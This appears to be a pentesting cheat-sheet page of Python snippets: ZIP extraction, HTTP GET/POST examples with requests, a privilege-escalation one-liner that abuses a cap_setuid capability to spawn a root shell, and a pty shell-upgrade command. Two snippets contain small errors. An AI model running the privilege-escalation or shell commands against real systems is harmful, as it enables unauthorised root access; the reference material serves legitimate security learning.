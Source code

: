 ```yaml
---
title: Python
desc: A high-level, interpreted, general-purpose programming language.
tags: [Malware, PrivEsc, Web]
alts: []
website:
render_with_liquid: false
---
```


## Extract

### Extract ZIP Archive

```python
import zipfile

archive = 'example.zip'
output_dir = 'output'

with zipfile.ZipFile(archive, 'r') as z:
	z.extractall(output_dir)
```

### Extract ZIP Archives Recursively

```python
import io
import os
import zipfile

archive = 'example.zip'
output_dir = 'output'

with zipfile.ZipFile(archive, 'r') as z:
	for f in z.namelist():
		# Read inner zip
		content = io.BytesIO(z.read(f))
		with zipfile.ZipFile(content, 'r') as c:
			c.extractall(output_dir)
```

<br />

## Requests

### HTTP GET Request (Basic)

```python
#!/usr/bin/env python3

import requests

ip = '10.0.0.1'
port = '80'
url = 'http://%s:%s' % (ip, port)

res = requests.get(url)

print(res.content)
print(res.headers)
print(res.status_code)
print(res.text)
print(res.url)
```

### HTTP GET Request (Args)

```python
#!/usr/bin/env python3

import requests

ip = '10.0.0.1'
port '80'
url = 'http://%s:%s' % (ip, port)
ua = 'Mozilla/5.0 ...'

# Args
params = {'page': '2', 'item': 'chair'}
headers = {'User-Agent': ua}
cookies = {'PHPSESSID': 'a953b5...'}
auth = requests.auth.HTTPBasicAuth('username', 'password')

r = requests.get(url, params=params, headers=headers, cookies=cookies, auth=auth)

print(r.text)
```

### HTTP GET Request (Session)

```python
#!/usr/bin/env python3

import requests

url = 'http://example.com'

session = requests.Session()
r = session.get(url)

print(r.text)
```

### HTTP POST Request (Basic)

```python
#!/usr/bin/env python3

import requests

ip = '10.0.0.1'
port = '80'
url = 'http://%s:%s/login' % (ip, port)

data = {'username': 'admin', 'password': 'admin'}

r = requests.post(url, data=data)

print(r.status_code)
print(r.text)
```

### HTTP POST Request (Args)

```python
#!/usr/bin/env python3

import requests

url = 'http://example.com/login'

data = {'username': 'admin', 'password': 'admin'}

# Args
headers = {'User-Agent': ua}
cookies = {'PHPSESSID': 'a953b5...'}

r = requests.post(url, data=data, headers=headers, cookies=cookies)
```

### HTTP POST Request (Session)

```python
#!/usr/bin/env python3

import requests

url = 'http://example.com/comment'

data = {'name': 'Mike', 'comment': 'Hello'}

session = requests.Session()

r = session.post(url, data=data)

print(r.text)
```

<br />

## Privilege Escalation

```sh
# Capability
# ex. /usr/bin/python3 = cap_setuid+ep)
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

<br />

## Upgrade to Full Functional Terminal

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```